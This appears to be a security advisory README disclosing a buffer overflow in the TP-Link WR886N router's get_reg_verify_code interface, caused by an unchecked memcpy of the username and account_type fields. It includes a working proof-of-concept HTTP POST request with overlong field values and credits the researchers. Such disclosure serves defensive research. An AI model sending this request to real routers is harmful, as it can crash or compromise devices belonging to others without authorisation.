


# TP-LINK WR-886N Vulnerability
This vulnerability is on the /cloud_config/router_post/get_reg_verify_code interface and affects the latest version of the router operating system (which is a different RTOS system from the linux operating system), and the firmware version is TL-WR886N V6.0 upgrade software 20190826 2.3.8
## Vulnerability description
There is a buffer overflow vulnerability on the /cloud_config/router_post/get_reg_verify_code interface.

1. An interface ```/cloud_config/router_post/get_reg_verify_code``` is registered first in the getRegVeriRegister function.

2. In the handler, the v7 variable is the ```username``` field in the packet, and the v9 variable is the ```account_type``` field in the packet. Then directly memcpy to the a3 variable refers to the address space, there is a buffer overflow problem.

## poc
```
POST /cloud_config/router_post/get_reg_verify_code HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&account_type=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```
## Acknowledgment 
Credit to [@Yu3H0](https://github.com/Yu3H0/) ,[@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.